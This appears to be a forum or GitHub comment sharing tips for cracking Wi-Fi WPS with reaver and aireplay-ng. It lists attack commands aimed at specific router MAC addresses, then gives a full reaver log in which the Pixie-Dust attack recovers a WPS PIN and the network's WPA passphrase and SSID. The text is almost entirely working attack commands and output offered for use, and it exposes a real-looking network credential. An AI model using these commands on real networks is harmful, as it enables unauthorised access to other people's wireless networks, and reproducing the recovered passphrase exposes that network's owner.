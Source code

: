 -A -vv or -v -v -A -vv

i have the best results with reaver , with the following commands 
` reaver -i mon0 -b -c -f -v -d 0 -x 60 -A -n `, 
at the same time in another terminal window aireplay-ng mon0 -1 120 -b -e 


`aireplay-ng wlan0mon -1 120 -a 1C:AF:F7:CC:61:6B`

in the other windows

`reaver -i wlan0mon -c 1 -b 1C:AF:F7:CC:61:6B -d 60 --no-nacks -S --win7 -vv`

`reaver -i wlan0mon -b 1C:AF:F7:CC:61:6B -a -S -N -vv -c 1 -w -L`

`time reaver -i mon0 -c 11 -b 08:3E:0C:AD:9E:90 -K 1`
```
Reaver v1.5.2 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>
mod by t6_x <t6_x@hotmail.com> & DataHead & Soxrok2212

[+] Waiting for beacon from 08:3E:0C:AD:9E:90
[+] Associated with 08:3E:0C:AD:9E:90 (ESSID: Team A2013)
[+] Starting Cracking Session. Pin count: 0, Max pin attempts: 11000
[P] E-Nonce: e5:05:10:63:a2:30:94:fb:9a:16:07:34:26:6a:d2:fb
[P] PKE: e7:8b:fe:8e:27:11:b0:d1:21:b1:ca:91:aa:f0:52:e8:6b:57:d2:55:8e:7d:c2:6a:a2:8e:56:c9:67:8a:8c:10:c9:4a:f2:1d:e9:e5:e1:80:3d:77:df:a3:44:e9:1c:dd:73:0f:65:0b:89:67:37:7a:7e:dc:52:15:9a:fc:be:d4:a9:2b:91:95:36:52:06:82:3a:12:85:9e:87:e2:05:ea:34:c5:d5:71:58:73:7c:42:5a:d6:cc:40:8a:4a:28:1a:f6:dd:29:38:56:fc:42:bd:73:75:7d:db:14:ef:16:89:fb:a1:02:35:cb:ea:de:c1:15:c9:d3:20:a5:67:c9:b4:2c:10:35:af:c5:e2:12:33:d2:23:e8:7e:3d:62:a1:c5:0f:ea:38:7e:fb:93:4c:a9:6c:af:d9:cd:ff:08:ad:5b:c0:ca:aa:98:b8:cd:2c:6b:d2:ec:14:60:f1:13:45:bc:70:ab:09:7d:de:ca:9e:29:b0:ff:6c:54:bd:43:00:47
[P] WPS Manufacturer: ARRIS
[P] WPS Model Name: TG862G
[P] WPS Model Number: RT2860
[P] Access Point Serial Number: 12345678
[P] R-Nonce: f9:fd:ad:9b:de:78:ba:f8:a3:b4:28:e5:b4:21:0a:aa
[P] PKR: 2b:08:3e:47:7a:3e:ed:a3:c7:76:cc:a9:17:52:46:c7:fa:1d:67:87:e6:1e:3e:b9:9b:e1:4c:58:b4:18:21:50:e1:28:87:66:9f:1a:33:5d:78:d3:33:72:68:55:a7:0d:da:c5:14:94:70:b6:3e:1a:9e:5d:98:2d:af:31:58:5a:db:78:53:0c:b1:9f:25:ad:dc:d8:4d:22:21:be:e5:e1:d2:98:23:d8:30:76:e5:39:eb:cb:67:1d:bc:ff:8b:6e:96:0f:df:1e:c8:01:c5:48:18:ca:6c:4d:8a:1f:74:68:29:89:a2:dd:d7:f2:31:eb:ea:07:5b:75:97:cc:4a:36:8d:84:3f:b8:19:1c:39:2b:90:3c:a4:c1:7a:b2:6a:97:f2:93:fa:fb:22:a1:df:44:a0:a4:b6:20:dd:91:e1:98:2a:f0:b9:ac:23:f0:e9:2d:8b:ec:cf:70:59:45:a9:ff:fb:67:1f:2c:00:7b:02:63:80:b7:ec:25:34:e8:46:6d
[P] AuthKey: 6b:e5:c2:12:44:99:e4:08:21:e9:44:bb:a9:0e:ba:7e:1b:9a:0b:df:72:11:02:1e:04:fb:b0:9b:15:4a:6c:60
[P] E-Hash1: f6:63:82:13:84:4d:ec:f3:d3:a4:f6:16:e7:60:1b:b6:ed:b5:32:2b:7b:cf:5c:6d:53:1a:40:7a:d8:43:b8:1b
[P] E-Hash2: b5:15:0f:18:ef:f0:41:a7:7c:6b:91:d2:c5:4b:ea:a3:d4:21:d7:6e:85:7a:58:16:82:a1:40:33:6e:e3:ce:97
[Pixie-Dust]  
[Pixie-Dust]   Pixiewps 1.1
[Pixie-Dust]  
[Pixie-Dust]   [*] E-S1:       00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
[Pixie-Dust]   [*] E-S2:       00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
[Pixie-Dust]   [+] WPS pin:    42000648
[Pixie-Dust]  
[Pixie-Dust]   [*] Time taken: 0 s
[Pixie-Dust]  
Running reaver with the correct pin, wait ...
Cmd : reaver -i mon0 -b 08:3E:0C:AD:9E:90 -c 11 -s y -vv -p 42000648

[Reaver Test] BSSID: 08:3E:0C:AD:9E:90
[Reaver Test] Channel: 11
[Reaver Test] [+] WPS PIN: '42000648'
[Reaver Test] [+] WPA PSK: '3113foreverandever'
[Reaver Test] [+] AP SSID: 'Team A2013'

real	2m46.367s
```
